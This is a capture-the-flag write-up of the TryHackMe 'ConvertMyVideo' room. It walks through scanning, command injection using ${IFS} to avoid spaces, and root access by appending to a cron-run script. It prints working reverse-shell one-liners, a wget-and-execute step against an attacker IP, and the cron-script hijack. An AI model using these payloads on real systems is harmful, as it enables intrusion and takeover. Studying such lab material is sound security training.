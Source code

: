 ```yaml
---
title: ConvertMyVideo - Medium THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, TryHackMe]
writeup: :title
permalink: /convert
tags: [Command injection, Web]     # TAG names should always be lowercase
---
```


- OS: **Linux**
- Difficulty: **Medium**
- Author: **Talace**

# Scanning 🤖

**threader300.py**
```
**python3 threader3000.py**
```
```
Port 22 is open
Port 80 is open
```
**nmap scan**
```
nmap -p22,80 -sV -sC -T4 -Pn -oA 10.10.232.225 10.10.232.225
```
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
# Enumeration 👀

**dirb scan**
```
dirb http://10.10.232.225/ /usr/share/wordlists/dirb/common.txt
```
```
---- Scanning URL: http://10.10.232.225/ ----
+ http://10.10.232.225/admin (CODE:401|SIZE:460)
```
# Command injection 💉
We spawn on the main page

![mainPage](/assets/convertMyVideo/mainPage.png)

I capture the request in burp.. seems not very secure
![burp1](/assets/convertMyVideo/burp1.png)

Try **'id'** command, it works!
![idCommand](/assets/convertMyVideo/idCommand.png)

I can't **'ls -la'**, it return nothing, maybe i can't have white space ? 
I have found that the var IFS, is by default a ' ', so let's try with it! 
```bash
--version;ls${IFS}-la;
```

Nice it work, from this i'm able to retrieve a lot of data, and the user by the same occasion
![userFlag](/assets/convertMyVideo/userFlag.png)

**It's cool, but we need a way to enter, let's put a reverse shell in it!**
open my listener:
```bash
nc -nvlp 4444
```

And send my reverse shell! 
```bash
rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|sh${IFS}-i${IFS}2>&1|nc${IFS}10.8.138.226${IFS}4444${IFS}>/tmp/f;
```

**Oh crap!? It close instantly, let's wget and run script!**😦
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4444 >/tmp/f" >> shell.sh
```
Open a http server
```bash
python3 -m http.server 80
```
And lunch my new command, wget the script and run it with bash
```bash
--version;wget${IFS}http://10.8.138.226/pwn.sh;bash${IFS}shell.sh;
```
**Yessir! We are in!**😼

# Privilege escalation 🐧
**Upgrade the shell**
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**Let's run pspy**
check wich one is need:
```bash
uname -a

Output: Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
I need the 64 bits, wget it and change rights:
```bash
wget http://10.8.138.226:81/pspy64
&&
chmod +xs pspy64
```

**Now lunch the pspy**

./pspy64, Oh interesting cron job!
```bash
2023/11/11 18:13:01 CMD: UID=0     PID=27982  | bash /var/www/html/tmp/clean.sh
```

**Let's lunch a reverseshell from it.**

Open a netcat:
```bash
nc -nvlp 4445
```
Now put the revershell in it.
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.138.226 4445 >/tmp/f" >> clean.sh
```
Go back on your netcat... Boom! Got root GG!

![ROOT](/assets/convertMyVideo/root.png)

# Resources
How to run a command without white space: [Article](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces?source=post_page-----e012e7db996--------------------------------)